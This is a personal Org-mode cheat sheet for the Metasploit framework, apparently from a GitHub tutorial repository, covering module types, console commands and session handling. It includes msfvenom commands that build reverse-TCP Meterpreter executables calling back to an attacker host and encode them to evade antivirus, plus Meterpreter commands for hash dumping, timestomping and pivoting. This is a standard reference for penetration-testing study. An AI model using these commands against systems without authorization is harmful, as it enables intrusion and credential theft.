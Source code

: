 #+TITLE: METASPLOIT NOTE
#+DESCRIPTION: Metasploit tool
#+AUTHOR: Linux-DEX
#+OPTIONS: toc:4

* TABLE OF CONTENT :toc:
- [[#introduction][Introduction]]
- [[#metasploit-modules][Metasploit modules]]
- [[#man-page][Man page]]
  - [[#core-commands][Core Commands]]
  - [[#module-commands][Module Commands]]
  - [[#job-commands][Job Commands]]
  - [[#resource-script-commands][Resource Script Commands]]
  - [[#database-backend-commands][Database Backend Commands]]
  - [[#credentials-backend-commands][Credentials Backend Commands]]
  - [[#developer-commands][Developer Commands]]
- [[#basic-commands][Basic Commands]]
  - [[#open-metasploit-console][Open metasploit console]]
  - [[#help-command][Help Command]]
  - [[#msfupdate-command][msfupdate Command]]
  - [[#search-command][Search Command]]
  - [[#info-command][info Command]]
- [[#cheat-sheet][Cheat Sheet]]
  - [[#usefull-auxiliary-modules][Usefull Auxiliary Modules]]
  - [[#msfvenom][msfvenom]]
  - [[#metasploit-meterpreter][Metasploit Meterpreter]]
  - [[#managing-sessions][Managing Sessions]]
  - [[#multiple-sessions][Multiple Sessions]]

* Introduction
Metasploit is primarily used from the command line interface(CLI), which provides extensive functionality for exploting vulnerabilities, conducting penetration tests, and managing security assessments. However, Metasploit also includes a web-based graphical user interface(GUI) called Armitage, which provides a more user-friendly interface for performing similar tasks.

* Metasploit modules
Metasploit provides you with many module some are

1. *Exploit* : Exploit modules are used to leverage vulnerabilities in target systems to gain unauthorized access or perform specific actions. These modules typically include payloads that are executed once the exploit is successful.
2. *Payload* : Payload modules define the actions to be performed after successful exploitation, such as executing shell commands, adding user accounts, or establishing remote access to the target system.
3. *Auxiliary* : Auxiliary modules perform various tasks that support penetration testing and security assessments, such as scanning, fingerprinting, brute-forcing credentials, and information gathering.
4. *Post-Exploitation* : Post-exploitation modules are used to perform tasks after gaining access to a target system, such as privilege escalation, lateral movement, data exfiltration, and maintaining access.
5. *Encoder* : Encoder modules are used to obfuscate payloads to bypass antivirus detection or evade intrusion detection systems (IDS). These modules encode payloads to make them more difficult to detect by security mechanisms. 
6. *Nop* : Nop modules generate sequences of no-operation (NOP) instructions, which are often used in exploit development for payload alignment or buffer overflow exploitation.
7. *Evasion* : Evasion modules are used to bypass security controls and evade detection by antivirus software, intrusion detection/prevention systems (IDS/IPS), and other security mechanisms.
8. *Scanner* : Scanner modules are used to identify vulnerabilities and misconfigurations in target systems or networks through scanning techniques such as port scanning, service enumeration, and vulnerability detection.
9. *Stager* : tager modules provide initial code execution on the target system, typically used as part of multi-stage exploits or payload delivery techniques.
10. *Post* : Post modules automate post-exploitation tasks, such as gathering information, pivoting to other systems, or cleaning up after an attack.

* Man page
** Core Commands
| Command  | Description                                                           |
|----------+-----------------------------------------------------------------------|
| ?        | Help menu                                                             |
| banner   | Display an awesome metasploit banner                                  |
| cd       | change the current working directory                                  |
| color    | Toggle color                                                          |
| connect  | Communicate with a host                                               |
| debug    | Display information useful for debugging                              |
| exit     | exit the console                                                      |
| features | Display the list of not yet released features that can be opted in to |
| get      | Gets the value of a context-specific variable                         |
| getg     | Gets the value of a global variable                                   |
| grep     | Grep the output of another command                                    |
| help     | help menu                                                             |
| history  | Show command history                                                  |
| load     | Load a framework plugin                                               |
| quit     | exit the console                                                      |
| repeat   | Repeat a list of commands                                             |
| route    | route traffic trhough a session                                       |
| save     | Saves the active datastores                                           |
| sessions | Dump session listings and display information about sessions          |
| set      | Sets a context-specific variable to a value                           |
| setg     | Sets a global variable to a value                                     |
| sleep    | Do noting for the specific number of seconds.                         |
| spool    | Write console output into a file as well the screen                   |
| threads  | View and manipulate background threads                                |
| tips     | show a list of useful productivity tips                               |
| unload   | Unload a framework plugin                                             |
| unset    | Unset one or more context-specific variables                          |
| unsetg   | Unset one or more global variables                                    |
| version  | Show the framework and console library version number                 |

** Module Commands

| Command    | Description                                                     |
|------------+-----------------------------------------------------------------|
| advanced   | Display advanced options for one or more modules                |
| back       | Move back from the current context                              |
| clearm     | Clear the module stack                                          |
| favorite   | Add module(s) to the list of favorite modules                   |
| favorites  | Print the list of favorite modules (alias for 'show favorites') |
| info       | Display information about one or more modules                   |
| listm      | List the module stack                                           |
| loadpath   | Searches for and loads modules from a path                      |
| options    | Displays global options or for one or more modules              |
| popm       | Pops the latest module off the stack and makes it active        |
| previous   | Sets the previously loaded module as the current module         |
| pushm      | Pushes the active or list of modules onto the module stack      |
| reload_all | Reloads all modules from all defined module paths               |
| search     | Searches module names and descriptions                          |
| show       | Displays modules of a given type, or all modules                |
| use        | Interact with a module by name or search term/index             |

** Job Commands

| Command    | Description                    |
|------------+--------------------------------|
| handler    | Start a payload handler as job |
| jobs       | Displays and manages jobs      |
| kill       | Kill a job                     |
| rename_job | Rename a job                   |

** Resource Script Commands

| Command  | Description                                 |
|----------+---------------------------------------------|
| makerc   | Save commands entered since start to a file |
| resource | Run the commands stored in a file           |


** Database Backend Commands

| Command      | Description                                                                     |
|--------------+---------------------------------------------------------------------------------|
| analyze      | Analyze database information about a specific address or address range          |
| db_connect   | Connect to an existing data service                                             |
| db_disconnec | Disconnect from the current data service                                        |
| db_export    | Export a file containing the contents of the database                           |
| db_import    | Import a scan result file (filetype will be auto-detected)                      |
| db_nmap      | Executes nmap and records the output automatically                              |
| db_rebuild_c | Rebuilds the database-stored module cache (deprecated)                          |
| db_remove    | Remove the saved data service entry                                             |
| db_save      | Save the current data service connection as the default to reconnect on startup |
| db_stats     | Show statistics for the database                                                |
| db_status    | Show the current data service status                                            |
| hosts        | List all hosts in the database                                                  |
| klist        | List Kerberos tickets in the database                                           |
| loot         | List all loot in the database                                                   |
| notes        | List all notes in the database                                                  |
| services     | List all services in the database                                               |
| vulns        | List all vulnerabilities in the database                                        |
| workspace    | Switch between database workspaces                                              |


** Credentials Backend Commands

| Command | Description                          |
|---------+--------------------------------------|
| creds   | List all credentials in the database |


** Developer Commands

| Command    | Description                                                 |
|------------+-------------------------------------------------------------|
| edit       | Edit the current module or a file with the preferred editor |
| irb        | Open an interactive Ruby shell in the current context       |
| log        | Display framework.log paged to the end if possible          |
| pry        | Open the Pry debugger on the current module or Framework    |
| reload_lib | Reload Ruby library files from specified paths              |
| time       | Time how long it takes to run a particular command          |


* Basic Commands
** Open metasploit console
#+begin_example
$ sudo msfconsole
#+end_example

** Help Command
#+begin_example
msf> help
#+end_example

** msfupdate Command
#+begin_example
msf> msfupdate
#+end_example

** Search Command
+ *Search* is a powerful command in Metasploit that you can use to find what you want to locate.
+ For example, if you want to find exploits related to Microsoft, then the command will be 
#+begin_example
msf > search name:Microsoft type:exploit
#+end_example
    - *name* is the name of the object that you are looking for.
    - *type* is the kind of script you are searching.

** info Command      
+ The *info* command provide information regarding a module or platform, such as where it is used, who is the author, vulnerability reference, and its payload restiction
#+begin_example
msf> info auxiliary/admin/http/iis_auth_bypass
#+end_example

* Cheat Sheet
+ *Search for module:*
#+begin_example
msf> search [regex]
#+end_example

+ *Specify and exploit to use:*
#+begin_example
msf> use exploit/[ExploitPath]
#+end_example

+ *Specify a Payload to use:*
#+begin_example
msf> set PAYLOAD [PayloadPath]
#+end_example

+ *Show options for the current modules:*
#+begin_example
msf> show optoins
#+end_example

+ *Set options:*
#+begin_example
msf> set [Option] [Value]
#+end_example

+ *Start exploit:*
#+begin_example
msf> exploit
#+end_example

** Usefull Auxiliary Modules
+ *Port Scanner:*
#+begin_example
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 10.10.10.0/24
msf > run
#+end_example

+ *DNS Enumeration:*
#+begin_example
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
#+end_example

+ *FTP Server:*
#+begin_example
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
#+end_example

+ *Proxy Server:*
#+begin_example
msf > use auxiliary/server/socks4
msf > run 
#+end_example

** msfvenom
The msfvenom tool can be used to generate Metasploit payloads(such as Meterpreter) as standalone files and optionally encode them. This tool replaces the former msfpayload and msfencode tools. Run with "-l payload" to get a list of payloads.
#+begin_example
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
#+end_example

*Example:*
Reverse Meterpreter payload as an executable and redirected into a file:
#+begin_example
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
#+end_example

Format Options(specified with -f) --help-formats -List available output formats

exe – Executable pl – Perl rb – Ruby raw – Raw shellcode c – C code

Encoding Payloads with msfvenom

The msfvenom tool can be used to apply a level of encoding for anti-virus bypass. Run with '-l encoders' to get a list of encoders.
#+begin_example
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
#+end_example

*Example*
Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:
#+begin_example
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=10.1.1.1 LPORT=4444 > mal.exe
#+end_example

** Metasploit Meterpreter
*** Basic Commands
+ ? / help: Display a summary of commands exit / quit: Exit the Meterpreter session
+ *sysinfo* : Show the system name and OS type
+ *shutdown / reboot*: Self-explanatory

**** File System Commands:
+ *cd* : Change directory
+ *lcd* : Change directory on local (attacker's) machine
+ *pwd / getwd* : Display current working directory
+ *ls* : Show the contents of the directory
+ *cat* : Display the contents of a file on screen
+ *download / upload* : Move files to/from the target machine
+ *mkdir / rmdir* : Make / remove directory
+ *edit* : Open a file in the default editor (typically vi)

**** Process Commands:

+ *getpid* : Display the process ID that Meterpreter is running inside.
+ *getuid* : Display the user ID that Meterpreter is running with.
+ *ps* : Display process list.
+ *kill* : Terminate a process given its process ID.
+ *execute* : Run a given program with the privileges of the process the Meterpreter is loaded in.
+ *migrate* : Jump to a given destination process ID
    - Target process must have same or lesser privileges
    - Target process may be a more stable process
    - When inside a process, can access any files that process has a lock on.

*** Network Commands
+ *ipconfig* : Show network interface information
+ *portfwd* : Forward packets through TCP session
+ *route* : Manage/view the system's routing table

*** Misc Commands
+ *idletime* : Display the duration that the GUI of thetarget machine has been idle.
+ *uictl [enable/disable] [keyboard/mouse]* : Enable/disable either the mouse or keyboard of the target machine.
+ *screenshot* : Save as an image a screenshot of the target machine.

*** Additional Modules
+ use [module]: Load the specified module
+ Example:
    - use priv: Load the priv module
    - hashdump: Dump the hashes from the box
    - timestomp:Alter NTFS file timestamps

** Managing Sessions
*** Multiple Exploitation
+ Run the exploit expecting a single session that is immediately backgrounded:
#+begin_example
msf > exploit -z
#+end_example

+ Run the exploit in the background expecting one or more sessions that are immediately backgrounded:
#+begin_example
msf > exploit -j
#+end_example

*** List all current jobs(usually exploit listeners):
#+begin_example
msf > jobs -l
#+end_example

*** Kill a job:
#+begin_example
msf > jobs -k [jobID]
#+end_example

** Multiple Sessions
+ *List all backgrounded sessions:*
#+begin_example
msf > sessions -l
#+end_example

+ *Interact with a backgrounded session:*
#+begin_example
msf > session -i [SessionID]
#+end_example

+ *Background the current interactive session:*
#+begin_example
meterpreter > <Ctrl+Z>
or
meterpreter > background
#+end_example

+ *Routing Through sessions:*
  All modules(exploits/post/aux) against the target subnet mask will be privoted through this session.
#+begin_example
msf > route add [Subnet to Route To]
[Subnet Netmask] [SessionID]
#+end_example











https://github.com/ShubhamJagtap2000/Metasploit-Tutorial.git







